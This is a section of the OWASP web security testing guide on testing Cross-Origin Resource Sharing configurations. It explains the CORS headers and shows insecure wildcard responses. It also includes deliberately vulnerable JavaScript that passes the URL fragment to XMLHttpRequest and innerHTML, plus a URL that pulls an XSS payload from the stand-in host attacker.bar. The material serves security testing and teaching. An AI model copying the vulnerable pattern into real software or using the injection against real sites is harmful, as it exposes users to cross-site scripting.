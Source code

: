 # Testing Cross Origin Resource Sharing

|ID          |
|------------|
|WSTG-CLNT-07|

## Summary

[Cross origin resource sharing](https://en.wikipedia.org/wiki/Cross-origin_resource_sharing) (CORS) is a mechanism that enables a web browser to perform cross-domain requests using the XMLHttpRequest L2 API in a controlled manner. In the past, the XMLHttpRequest L1 API only allowed requests to be sent within the same origin as it was restricted by the same origin policy.

Cross-origin requests have an origin header that identifies the domain initiating the request and is always sent to the server. CORS defines the protocol to use between a web browser and a server to determine whether a cross-origin request is allowed. HTTP [headers](https://en.wikipedia.org/wiki/Cross-origin_resource_sharing#Headers) are used to accomplish this.

The [W3C CORS specification](https://www.w3.org/TR/cors/) mandates that for non simple requests, such as requests other than GET or POST or requests that uses credentials, a pre-flight OPTIONS request must be sent in advance to check if the type of request will have a bad impact on the data. The pre-flight request checks the methods and headers allowed by the server, and if credentials are permitted. Based on the result of the OPTIONS request, the browser decides whether the request is allowed or not.

### Origin & Access-Control-Allow-Origin

The origin header is always sent by the browser in a CORS request and indicates the origin of the request. The origin header can not be changed from JavaScript however relying on this header for Access Control checks is not a good idea as it may be spoofed outside the browser, so you still need to check that application-level protocols are used to protect sensitive data.

Access-Control-Allow-Origin is a response header used by a server to indicate which domains are allowed to read the response. Based on the CORS W3 Specification it is up to the client to determine and enforce the restriction of whether the client has access to the response data based on this header.

From a penetration testing perspective you should look for insecure configurations as for example using a `*` wildcard as value of the Access-Control-Allow-Origin header that means all domains are allowed. Other insecure example is when the server returns back the origin header without any additional checks, what can lead to access of sensitive data. Note that this configuration is very insecure, and is not acceptable in general terms, except in the case of a public API that is intended to be accessible by everyone.

### Access-Control-Request-Method & Access-Control-Allow-Method

The Access-Control-Request-Method header is used when a browser performs a preflight OPTIONS request and let the client indicate the request method of the final request. On the other hand, the Access-Control-Allow-Method is a response header used by the server to describe the methods the clients are allowed to use.

### Access-Control-Request-Headers & Access-Control-Allow-Headers

These two headers are used between the browser and the server to determine which headers can be used to perform a cross-origin request.

### Access-Control-Allow-Credentials

This header as part of a preflight request indicates that the final request can include user credentials.

### Input Validation

XMLHttpRequest L2 (or XHR L2) introduces the possibility of creating a cross-domain request using the XHR API for backwards compatibility. This can introduce security vulnerabilities that in XHR L1 were not present. Interesting points of the code to exploit would be URLs that are passed to XMLHttpRequest without validation, specially if absolute URLs are allowed because that could lead to code injection. Likewise, other part of the application that can be exploited is if the response data is not escaped and we can control it by providing user-supplied input.

### Other Headers

There are other headers involved like Access-Control-Max-Age that determines the time a preflight request can be cached in the browser, or Access-Control-Expose-Headers that indicates which headers are safe to expose to the API of a CORS API specification, both are response headers specified in the CORS W3C document.

## Test Objectives

- Identify endpoints that implement CORS.
- Ensure that the CORS configuration is secure or harmless.

## How to Test

A tool such as [ZAP](https://www.zaproxy.org) can enable testers to intercept HTTP headers, which can reveal how CORS is used. Testers should pay particular attention to the origin header to learn which domains are allowed. Also, manual inspection of the JavaScript is needed to determine whether the code is vulnerable to code injection due to improper handling of user supplied input. Below are some examples:

### Example 1: Insecure Response with Wildcard `*` in Access-Control-Allow-Origin

Request `http://attacker.bar/test.php` (note the 'origin' header):

```http
GET /test.php HTTP/1.1
Host: attacker.bar
[...]
Referer: http://example.foo/CORSexample1.html
Origin: http://example.foo
Connection: keep-alive
```

Response (note the 'Access-Control-Allow-Origin' header:)

```http
HTTP/1.1 200 OK
[...]
Access-Control-Allow-Origin: *
Content-Length: 4
Content-Type: application/xml

[Response Body]
```

### Example 2: Input Validation Issue: XSS with CORS

This code makes a request to the resource passed after the `#` character in the URL, initially used to get resources in the same server.

Vulnerable code:

```html
<script>
    var req = new XMLHttpRequest();

    req.onreadystatechange = function() {
        if(req.readyState==4 && req.status==200) {
            document.getElementById("div1").innerHTML=req.responseText;
        }
    }

    var resource = location.hash.substring(1);
    req.open("GET",resource,true);
    req.send();
</script>

<body>
    <div id="div1"></div>
</body>
```

For example, a request like this will show the contents of the `profile.php` file:

`http://example.foo/main.php#profile.php`

Request and response generated by `http://example.foo/profile.php`:

```html
GET /profile.php HTTP/1.1
Host: example.foo
[...]
Referer: http://example.foo/main.php
Connection: keep-alive

HTTP/1.1 200 OK
[...]
Content-Length: 25
Content-Type: text/html

[Response Body]
```

Now, as there is no URL validation we can inject a remote script, that will be injected and executed in the context of the `example.foo` domain, with a URL like this:

```text
http://example.foo/main.php#http://attacker.bar/file.php
```

Request and response generated by `http://attacker.bar/file.php`:

```html
GET /file.php HTTP/1.1
Host: attacker.bar
[...]
Referer: http://example.foo/main.php
origin: http://example.foo

HTTP/1.1 200 OK
[...]
Access-Control-Allow-Origin: *
Content-Length: 92
Content-Type: text/html

Injected Content from attacker.bar <img src="#" onerror="alert('Domain: '+document.domain)">
```
